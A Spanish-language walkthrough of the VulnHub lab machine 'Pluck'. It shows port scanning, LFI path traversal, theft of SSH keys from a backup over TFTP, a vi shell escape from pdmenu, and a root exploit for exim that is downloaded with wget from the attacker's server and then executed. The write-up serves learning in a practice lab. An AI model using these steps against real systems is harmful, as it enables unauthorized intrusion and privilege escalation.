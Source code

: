 # Pluck

Hoy vamos a resolver la maquina Pluck, donde estaremos tocando conceptos de explotación a través de LFI, así como escalada de privilegios a través de un script basico en bash.

Plataforma/Source: [VulnHub](https://www.vulnhub.com/entry/pluck-1,178/)

Dificultad: Easy

Meta: Obtener un shell root, es decir (root@localhost:~#) y luego obtener la bandera en /root

Iniciamos haciendo ping a la IP para asegurarnos que la maquina esté activa, tuve problemas con herramientas como arp-scan o netdiscover, así que me cree un script para escanear mi red local:

También he decidido añadir una resolución DNS local con el siguiente comando:
***
- Iniciamos haciendo ping a la IP para asegurarnos que la maquina esté activa. Esta maquina ya te muestra la IP al momento de arrancar el sistema, pero igual prefiero utilizar mi  [script](https://github.com/JoseVazquez101/My-scr1pt5/blob/main/hostscan.sh) para escanear mi red local y asegurarme que todo vaya en orden.

- Añadimos una resolución DNS local con el siguiente comando:
  ~~~bash
  echo '192.168.17.135  pluck.vh' >> /etc/hosts
  ~~~
- Si todo funciona, llegaría la hora de realizar el escaneo con nmap, con los siguientes parámetros:
~~~ bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV pluck.vh
~~~
- Vemos que hay cuatro servicios activos, entre los cuales parecen encontrarse ssh, http, mysql y mDNS:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/99846ec6-826e-47cf-8d53-bb9066cefb45)

- La pagina web tramita sus solicitudes a través del campo de la URL, indicando que pagina visita de esta forma:
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/290e1d40-4137-457b-83dd-ac492c76933d)

  - Esto puede derivar a una LFI si nos permite apuntar a recursos fuera de la carpeta anterior, indicando con `../` que queremos movernos hacia atrás:
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/bdbdd0d1-f04c-49f4-ac18-085911e06113)

  - Hasta abajo, observamos que hay una ruta absoluta a lo que parece ser un script para backups, por lo que podremos echar un vistazo a su contenido:
    ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/56541255-1260-4c2d-bf80-355e130bc8be)
   
- Parece ejecutar una serie de comandos, pero eso no importa mucho. Vemos que nos dice que podemos obtener el recurso via `tFTP`, el cual es un protocolo upd parecido a FTP. Nos conectamos y obtenemos el recurso.
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/64820d2b-c213-4028-af1c-ac36328d1927)

- Podemos analizarlo si lo descomprimimos con:
~~~bash
7z x backup.tar
~~~

- Son varias carpetas, pero en una podemos ver pares de llaves, posiblemente pares de llaves publicas y privadas de ssh.
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/48b21c4b-aa42-4a57-b480-897cad7fa0c2)

- Si listamos los contenidos, parecen cambiar en que algunas utilizan DSS y otras RSA para cifrarlas, en este punto probé todas las claves publicas hasta que alguna resultara valida, pues todas son del usuario Paul

~~~ bash
ssh paul@pluck.vh -i <pub_key>
~~~

- En este caso, si disponemos de la clave privada correcta alojada en el servidor victima, no nos debería pedir proporcionar una contraseña:
- Finalmente con una de las llaves podemos acceder, pero este usuario no poseé una bash, sino algo llamado pdmenu:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/19a4dcc7-277f-4668-8a3e-d13529a1f0cb)

- Tenemos un modulo para editar archivos, y este utiliza vi. Según [GTFOBins](https://gtfobins.github.io/gtfobins/vi/) existe una manera para hacer que este binario nos lance una bash.
- Nos metemos a cualquier archivo para editar, ya sea /etc/passwd y presionamos SHIFT+: para insertar las siguientes variables
~~~bash
:set shell=/bin/sh
:shell
~~~

***

<h3>PrivEsc</h3>
- Ya con completa libertad de movilidad, empecemos con listar los permisos SUID.
~~~ bash
find / -perm -4000 2>/dev/null
~~~
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/9b43745d-98cc-46a7-992a-1f9e29641298)

- Vemos un binario `exim`, el cual es empleado para servicios de correo en equipos Unix
	- Exim: https://www.exim.org/
- Nos deja ver la versión, así que podríamos intentar ver si existe algún exploit conocido en searchsploit, así que lo movemos y pasamos a la maquina victima:

- Maquina local:
  ~~~bash
  searchsploit -m linux/local/39535.sh
  python3 -m http.server 9999
  wget 192.168.17.128:9999/39535.sh
  mv 39535.sh exploit.sh
  chmod +x exploit.sh
  ./exploit.sh
  ~~~
- Y con esto ya seriamos root :D

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/aabef773-920f-4f7b-ad63-5785a4f81be1)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/ae56085a-d6a3-4b3e-b1f9-28142195dff0)

